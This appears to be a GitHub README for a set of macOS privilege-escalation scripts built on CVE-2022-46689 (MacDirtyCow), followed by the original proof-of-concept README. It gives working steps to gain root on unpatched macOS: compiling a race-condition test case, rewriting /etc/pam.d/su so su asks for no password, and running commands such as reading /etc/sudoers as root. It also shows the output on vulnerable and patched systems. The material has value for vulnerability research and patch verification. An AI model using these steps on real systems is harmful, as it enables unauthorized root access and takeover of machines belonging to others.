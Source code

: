 # MacDirtyCow Utilities

Scripts to get elevated access using [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (MacDirtyCow).

## Compatability
MacDirtyCow supports the following versions:
- macOS 13.0.1
- macOS 13.0
- macOS 12.6.1 or under

### [get_admin.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/get_admin.command)
This script will allow you to set any user as admin.

### [root_shell.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/root_shell.command)
This script will open a shell session as root.

### [elevate.command](https://github.com/DeltAndy123/MacDirtyCow-Utils/blob/main/elevate.command)
This script take parameters and runs them as root.

Examples:
```bash
./elevate.command "cat /etc/sudoers"
./elevate.command "echo \"This command is ran as root\"" "ls /private/var/networkd/Library/Preferences"
```

## Credits
- [MacDirtyCowDemo](https://github.com/zhuowei/MacDirtyCowDemo) to overwrite read-only files without root access

# Original README.md

Get root on macOS 13.0.1 with [CVE-2022-46689](https://support.apple.com/en-us/HT213532) (macOS equivalent of the Dirty Cow bug), using the testcase extracted from [Apple's XNU source](https://github.com/apple-oss-distributions/xnu/blob/xnu-8792.61.2/tests/vm/vm_unaligned_copy_switch_race.c).

https://worthdoingbadly.com/macdirtycow/

## Usage
On a macOS 13.0.1 / 12.6.1 (or below) machine, run:

```
clang -o switcharoo vm_unaligned_copy_switch_race.c
sed -e "s/rootok/permit/g" /etc/pam.d/su > overwrite_file.bin
./switcharoo /etc/pam.d/su overwrite_file.bin
su
```

You should get:

```
% ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
RO mapping was modified
% su
sh-3.2# 
```

Tested on macOS 13 beta (22A5266r) with SIP off (it should still work with SIP on).

If your system is fully patched (macOS 13.1 / 12.6.2), it should instead read:

```
$ ./switcharoo /etc/pam.d/su overwrite_file.bin
Testing for 10 seconds...
vm_read_overwrite: KERN_SUCCESS:9865 KERN_PROTECTION_FAILURE:3840 other:0
Ran 13705 times in 10 seconds with no failure
```

and running `su` should still ask for a password.

Thanks to Sealed System Volume, running this on any file on the /System volume only modifies the file temporarily: It's reverted on reboot. Running it on a file on a writeable volume will preserve the modification after a reboot.

## Credits

- Ian Beer of Project Zero for finding the issue. Looking forward to your writeup!
- Apple for the test case. (I didn't change anything: I just added the command line parameter to control what to overwrite.)
- [SSLab@Gatech](https://gts3.org/assets/papers/2020/jin:pwn2own2020-safari-slides.pdf) for the trick to disable password checking using `/etc/pam.d`.
